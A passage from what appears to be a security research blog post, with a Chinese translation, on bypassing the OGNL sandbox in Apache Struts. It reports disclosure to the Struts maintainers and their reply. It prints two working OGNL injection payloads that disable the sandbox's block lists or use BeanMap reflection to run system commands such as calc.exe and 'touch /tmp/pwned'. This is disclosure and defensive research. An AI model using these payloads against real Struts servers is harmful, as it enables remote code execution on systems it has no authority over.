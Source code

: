 ```kotlin
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +

(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
```

The payload was basically disabling the OGNL sandbox and then accessing otherwise blocked classes such as `InstanceManager`. There is a simpler way to abuse BeanMaps that do not require to disable the sandbox and that is using reflection:  
有效负载基本上是禁用 OGNL 沙箱，然后访问其他被阻止的类，如 `InstanceManager` 。有一种更简单的方法来滥用 BeanMaps，不需要禁用沙箱，并且使用反射：

```shell
(#c=#@org.apache.commons.beanutils.BeanMap@{})+

(#c.setBean(@Runtime@class))+

(#rt=#c['methods'][6].invoke())+

(#c['methods'][12]).invoke(#rt,'touch /tmp/pwned')
```

This payload also works in Struts 6 if the `BeanClass` is available in the classpath (either from Apache Commons Collections or Apache Commons BeanUtils), but you need to specify the FQN (Fully Qualified Name) name for `Runtime`: `@java.lang.Runtime@class`.  
如果类路径中有 `BeanClass` （来自 Apache Commons Collections 或 Apache Commons BeanUtils），则此有效负载也可以在 Struts 6 中工作，但您需要为 `Runtime` ： `@java.lang.Runtime@class` 指定一个名为 WARN（完全限定名称）的名称。

### Timeline 时间轴[](#timeline)

These bypasses were first reported to the Struts and OGNL security teams on June 9, 2022.  
这些绕过于 2022 年 6 月 9 日首次报告给 Struts 和 OGNL 安全团队。

On October 7, 2022, the security team replied to us and stated that improving the block lists was not a sustainable solution, and, therefore, they decided to stop doing it. They highlighted that a [Java Security Manager can be configured](https://struts.apache.org/security/#proactively-protect-from-ognl-expression-injections-attacks-if-easily-applicable) to protect every OGNL evaluation from these attacks and we highly recommend doing so if you are running a Struts application. However, bear in mind that the [Security Manager is deprecated](https://openjdk.org/jeps/411) and will soon get removed from the JDK.  
2022 年 10 月 7 日，安全团队回复我们，并表示改进阻止列表不是一个可持续的解决方案，因此，他们决定停止这样做。他们强调，可以配置 Java 安全管理器来保护每个 OGNL 评估免受这些攻击，如果您正在运行 Struts 应用程序，我们强烈建议您这样做。但是，请记住，安全管理器已被弃用，并将很快从 JDK 中删除。

## That’s a wrap That's a wrap[](#thats-a-wrap)

At this point, you will have probably realized that sandboxing an expression language, such as OGNL, is a really difficult task, and may require maintaining a list of blocked classes and OGNL features even though that is not an optimal approach. In this blog post, we have reviewed a few ways in which these sandboxes can be bypassed. Although they are specific to OGNL, hopefully you have learned to explore sandbox controls–and one or two new tricks–that may apply to other sandboxes. In total, we were able to raise $5,600, which we donated to [UNHCR](https://www.unhcr.org/) to help provide refuge for Ukrainians seeking protection from the war.  
此时，您可能已经意识到，对表达式语言（如 OGNL）进行沙箱化是一项非常困难的任务，并且可能需要维护一个阻塞类和 OGNL 特性的列表，尽管这不是最佳方法。在这篇博客文章中，我们回顾了一些可以绕过这些沙箱的方法。虽然它们是特定于 OGNL 的，但希望您已经学会了探索沙箱控件以及一两个可能适用于其他沙箱的新技巧。我们总共筹集了 5,600 美元，捐给了联合国难民署，帮助为寻求战争保护的乌克兰人提供避难所。

Tags: Tags：

-   [↓↓↓](https://github.blog/tag/github-security-lab/)  
      
    GitHub Security Lab  GitHub 安全实验室  
      
    [↑↑↑](https://github.blog/tag/github-security-lab/)
